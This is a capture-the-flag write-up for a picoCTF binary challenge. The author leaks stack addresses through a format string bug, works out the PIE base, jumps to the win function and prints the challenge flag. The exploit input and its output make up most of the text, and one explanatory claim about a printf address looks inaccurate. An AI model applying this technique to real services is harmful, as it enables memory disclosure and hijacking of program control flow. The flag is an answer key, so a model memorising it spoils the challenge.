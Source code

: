 ## Execution

```bash
therustymate-picoctf@webshell:~/PIE Time 2$ nc rescued-float.picoctf.net 49689
Enter your name:%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
0x55a97e4eb2a1.0xfbad2288.0x55a97e4eb2da.(nil).0x55a97e4eb2a0.(nil).0x7f3b301b3780.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x7ffd6e000a2e.0x7ffd6e95f7a8.0x260430adc853e500.0x7ffd6e95f690.0x55a9739a9441.
 enter the address to jump to, ex => 0x12345: 
```

By using format string vulnerability, we identified multiple memory addresses.
* 0x55a97e4eb2a1
* 0xfbad2288
* 0x55a97e4eb2da
* (nil) 
* 0x55a97e4eb2a0
* (nil)
* 0x7f3b301b3780
* 0x70252e70252e7025
* 0x252e70252e70252e
* 0x2e70252e70252e70
* 0x70252e70252e7025
* 0x252e70252e70252e
* 0x2e70252e70252e70
* 0x70252e70252e7025
* 0x7ffd6e000a2e
* 0x7ffd6e95f7a8
* 0x260430adc853e500
* 0x7ffd6e95f690
* 0x55a9739a9441

Notice that one of the addresses (`0x55a9739a9441`) ends with `441`. This is the memory address of the function `printf`. We can calculate the dynamic base address using this: `base address = address - offset`.

`0x55a9739a9441 - 441 = 0x55A9 739A 9000 (0x55a9739a9000)`

Therefore, the base address is `0x55a9739a9000`.

We can call `sym.win` function by adding the offset of the function to the base address: `0x55a9739a9000 + 36a = 0x55A9 739A 936A (0x55a9739a936a)`

Entering this address to the prompt will jump to the `sym.win` function.

```bash
 enter the address to jump to, ex => 0x12345: 0x55a9739a936a
You won!
picoCTF{p13_5h0u1dn'7_134k_1ef23143}

^C
```

Therefore, the flag is `picoCTF{p13_5h0u1dn'7_134k_1ef23143}`